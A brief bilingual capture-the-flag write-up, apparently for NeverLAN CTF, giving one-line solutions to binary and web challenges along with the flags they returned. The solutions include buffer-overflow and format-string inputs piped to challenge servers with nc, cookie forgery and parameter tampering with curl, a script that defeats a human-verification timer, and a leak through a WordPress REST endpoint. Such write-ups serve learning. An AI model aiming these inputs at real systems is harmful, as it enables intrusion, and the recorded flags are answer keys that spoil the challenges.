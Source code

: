 ## Binary

### ThisIsTheEnd (300)

`python -c "import sys; print 'A' * 4096" | nc neverlanctf-challenges-elb-248020705.us-west-2.elb.amazonaws.com 1235`

```
this_is_the_end_my_only_friend_\0
```

### FormatMyWorld (350)

`python -c "print 'A' * 4096 + '%s'" | nc neverlanctf-challenges-elb-248020705.us-west-2.elb.amazonaws.com 6745`

```
flagflagflag
```

## Web

### CookieMonster (50)

`curl http://neverlanctf-challenges-elb-248020705.us-west-2.elb.amazonaws.com:8401/ -b "Yellow_Guy's_name=Big Bird"` でフラグが表示されました。

```
bigest_of_the_birds
```

### A Slight Cut (100)

`curl http://neverlanctf-challenges-elb-248020705.us-west-2.elb.amazonaws.com:9123/echo.php?length=1000&text=a` でフラグが表示されました。

```
bleeding_in_javascript
```

### No Humans Allowed (200)

表示された式の答えを 1 秒以内に送信する問題でした。

```javascript
document.getElementsByName('val3')[0].value = eval(document.querySelectorAll('p')[1].textContent);
document.querySelector('form').submit();
```

```
jHBhbfoY1UEHQuRMwzt7Yr8xkCiCvfbS
```

### Working For the Rebels Now (200)

http://ec2-52-42-62-163.us-west-2.compute.amazonaws.com/wp-json/wp/v2/posts/1 にアクセスするとフラグが表示されました。
